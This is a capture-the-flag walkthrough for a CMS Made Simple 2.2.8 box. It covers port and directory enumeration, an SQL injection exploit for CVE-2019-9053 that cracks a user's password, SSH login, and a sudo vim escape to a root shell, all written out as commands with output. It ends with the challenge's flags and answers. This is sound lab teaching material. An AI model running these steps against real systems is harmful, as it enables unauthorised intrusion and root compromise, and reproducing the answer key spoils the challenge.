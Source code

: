 # CMS Made Simple (2.2.8) CTF Walkthrough

## Initial Enumeration
- Ran a full nmap scan against target `10.201.13.81`:
  ```
  nmap -sV -p- 10.201.13.81
  ```
  Results:
  - 21/tcp open ftp vsftpd 3.0.3
  - 80/tcp open http Apache 2.4.18
  - 2222/tcp open ssh OpenSSH 7.2p2

- Answers:
  - Services under port 1000: 2
  - Higher port service: SSH

## Web Enumeration
- Used gobuster to find directories:
  ```
  gobuster dir -u http://10.201.13.81/ -w /usr/share/wordlists/dirb/common.txt
  ```
  Found `/simple/` → CMS Made Simple.

- CMS Made Simple 2.2.8 is vulnerable to SQL Injection.
- CVE used: CVE-2019-9053
- Vulnerability type: SQLi

## Exploitation
- Tried to run exploit:
  ```
  python3 46635.py -u http://10.201.13.81/simple/ -w /usr/share/wordlists/rockyou.txt
  ```
  Error: `SyntaxError: Missing parentheses in call to 'print'`  
  Cause: Script is written for Python2.  
  Fix: Installed python2 and ran:
  ```
  python2 46635.py -u http://10.201.13.81/simple/ -w /usr/share/wordlists/rockyou.txt
  ```

- Successful output:
  ```
  [+] Salt: 1dac0d92e9fa6bb2
  [+] Username: mitch
  [+] Email: admin@admin.com
  [+] Password hash: 0c01f4468bd75d7a84c7eb73846e8d96
  [+] Cracked password: secret
  ```

- Answer:
  - Password: secret

## Shell Access
- Logged into SSH on higher port:
  ```
  ssh -p 2222 mitch@10.201.13.81
  ```
  Password: `secret`

- Answer:
  - Login service: SSH

## User Flag
- Retrieved user flag:
  ```
  cat /home/mitch/user.txt
  ```
  Flag: `G00d j0b, keep up!`

- Checked home directory:
  ```
  ls /home
  ```
  Found another user: `sunbath`

- Answers:
  - User flag: G00d j0b, keep up!
  - Other user: sunbath

## Privilege Escalation
- Checked sudo permissions:
  ```
  sudo -l
  ```
  Output: `mitch` can run `/usr/bin/vim` as root without password.

- Spawned root shell:
  ```
  sudo vim -c ':!/bin/sh'
  ```

## Root Flag
- Retrieved root flag:
  ```
  cat /root/root.txt
  ```
  Flag: `W3ll d0n3. You made it!`

- Answer:
  - Root flag: W3ll d0n3. You made it!

## Errors Faced & Fixes
1. **Nmap syntax error**
   - Mistyped `-p1-1000-65535`
   - Fix: Use `-p-` for all ports or `-p1-1000` for specific range.

2. **Exploit script Python3 error**
   - Script used Python2 print syntax.
   - Fix: Installed python2 and ran the exploit with it.

3. **apt-get IPv6 errors**
   - Package installation failed due to IPv6 connectivity issues.
   - Fix: Forced apt to use IPv4 with `-o Acquire::ForceIPv4=true`.

## Final Answers
- Higher port service: SSH
- CVE: CVE-2019-9053
- Vulnerability type: SQLi
- Password: secret
- Login service: SSH
- User flag: G00d j0b, keep up!
- Other user: sunbath
- Privilege escalation via: vim
- Root flag: W3ll d0n3. You made it!
